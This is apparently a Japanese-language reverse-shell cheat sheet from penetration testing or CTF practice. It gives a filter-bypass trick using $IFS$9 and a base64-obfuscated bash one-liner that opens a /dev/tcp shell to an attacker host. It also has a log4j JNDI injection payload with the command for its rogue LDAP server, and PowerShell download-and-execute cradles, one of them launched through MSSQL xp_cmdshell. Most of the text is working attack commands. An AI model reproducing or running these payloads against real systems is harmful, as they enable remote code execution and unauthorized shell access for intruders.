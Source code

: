 # Reverse Shell
Reverse Shellに関するナレッジ

## 全般

### コマンド生成
以下サイトでReverse Shellを貼るコマンドを生成できる
https://www.revshells.com/

### 文字制限Bypass
* 入力値に空白を使用できない場合、$IFS$9で代用できる

https://www.ctfnote.com/web/os-command-injection/whitespace-bypass

* 直接コマンドを送って通らない場合、base64で送ってデコードしたものを実行することで実行可能な場合がある。

```
bash -c {echo,L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi41OC80NDQ0IDA+JjE=}|{base64,-d}|{bash,-i}
```

## サービスごとのシェルと取り方
### Jenkins
JenkinsのScript Consoleが使用可能な場合等は以下のソースでリバースシェルを貼れる

https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

### JNDI-Injection(log4j)
JNDI Injectionが可能な場合、以下のツールを使って任意コマンド実行できる
https://github.com/veracode-research/rogue-jndi

以下のようにLDAP等の通信を受けるサーバを立ち上げる
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "リバースシェルを貼るコマンド" -A "IP_ADDRESS"
```
JNDI Injectionを起こして立ち上げたサーバにアクセスさせる。
```
${jndi:ldap://10.10.16.58:1389/o=tomcat}
```

### PowerShell
URLで指示した先をコマンドとして解釈する
```
IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.58/shell.ps1\")
```

使用例としてはReverseShellを張るためのps1をサーバに設置して、mssqlの
xp_cmdshell等から実行するなど

```
SQL > xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.16.58/shell.ps1\");"
```